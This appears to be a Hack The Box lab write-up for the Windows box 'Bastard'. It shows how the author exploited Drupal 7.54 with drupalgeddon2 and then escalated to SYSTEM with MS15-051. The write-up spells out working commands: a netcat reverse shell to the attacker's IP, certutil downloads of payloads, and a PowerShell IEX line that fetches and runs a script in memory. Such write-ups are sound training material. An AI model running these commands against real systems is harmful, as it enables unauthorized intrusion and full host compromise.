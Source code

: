 ```yaml
---
title: Bastard
tags: windows
description: Write-up for Hack the Box - Bastard
---
```


![image](assets/79369485-07cfe400-7f1f-11ea-905d-414b9b137c70.png)

## Overview

Bastard is a Windows Server box running a content management system called Drupal. Drual 7.54 is vulnerable to CVE-2018-7600 which allows for remote code execution. Drupalgeddon was used to get the initial shell and kernel exploit (MS15-051) was used to escalate privileges to 'nt authority/system'.

## Enumeration

* Windows Server 2008 R2
* IIS 7.5
* php 5.3.28
* drupal 7.54

**Open Ports*

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.9 -oN /mnt/data/boxes/bastard/_full_tcp_nmap.txt
```

* 80/tcp - http
* 135/tcp - Microsft Windows RPC
* 49154 - Microsoft Windows RPC

## Steps (User)

Browsing to http://10.10.10.9 brought me to a drupal login page.

![image](assets/86193250-76cdd980-bb19-11ea-89db-95acc1ca972d.png)

Checking http://10.10.10.9/robots.txt showed some interesting files including /CHANGELOG.txt which reveals the version of drupal that's running.

![image](assets/79605435-ea854c00-80bd-11ea-9500-4a548c33dc3c.png)

Running a search against searchsploit for "drupal 7" shows multiple results, 3 of which apply to the version running on the box.I decided to go with drupalgeddon2.

![image](assets/79607582-6d5bd600-80c1-11ea-8a0e-9b9a04c7699f.png)


[drupalgeddon2](https://www.exploit-db.com/exploits/44449) is an exploit written in ruby which provides a root shell (if vulnerable). I made one modification to the script, "tryphpshell = false", because it appeared there was insufficient access to the web root.

```
./44449.rb http://10.10.10.9
```

> I had to use dos2unix to convert the line endings of the file because it was throwing errors (dos2unix 44449.rb)

![image](assets/79608245-a0eb3000-80c2-11ea-9077-4d893787cccf.png)

The web shell is pretty slow so I created a reverse shell with netcat. I copied the windows version of netcat to my local working directory, started a python http server in prepration to transfer files, and started a netcat listener (rlwrap nc -lvnp 4200).

> Note: rlwrap fixes the arrow key functionality for windows reverse shells. 

```
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

I used certutil was used to copy netcat to the target box.

```
certutil -urlcache -split -f http://10.10.14.16/nc.exe
```

With netcat now on the box I ran the command to create a reverse shell and received a callback as 'nt authority\iusr'

```
nc.exe -e cmd 10.10.14.16 4200
```

![image](assets/79614047-ba45a980-80cd-11ea-9f36-b4085af58e80.png)


## Steps (root/system)

Running systeminfo showed N/A for hotfixes so at this point I decided to run Sherlock and check for exploits.

> I attempted this with [Watson](https://github.com/rasta-mouse/Watson) but unfortunately I was not able to compile it for .Net 2.0.

Sherlock.ps1 was copied to my working directory.

```
cp ~/tools/Sherlock/Sherlock.ps1 .
```

I then used Powershell Invoke-Expression (IEX) to pull sherlock.ps1 from my box and run it in memory, executing the Find-AllVuns function.

```
powershell -nop -exec bypass -c "iex (new-object net.webclient).downloadstring('http://10.10.14.16/Sherlock.ps1');Find-AllVulns"
```

![image](assets/79620360-a144f480-80dd-11ea-9b2c-7a58ae4b79fc.png)

Reviewing the results, the box appeared to be vulnerable to MS15-051 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051-KB3045171.zip

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing.

ms15-051x64.exe was extracted to my working directory and copied to the target via the python http server using certutil.

```
certutil -urlcache -split -f http://10.10.14.16/ms15-051x64.exe
```

I set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit providing my IP and port as parameters
```
ms15-051x64 -e cmd.exe 10.10.14.16 4201
```

![image](assets/79620972-c0dd1c80-80df-11ea-8304-137875abf87e.png)

A callback was received and I received a shell as nt authority/system

![image](assets/79621003-d2bebf80-80df-11ea-89bc-7fa5551df4be.png)
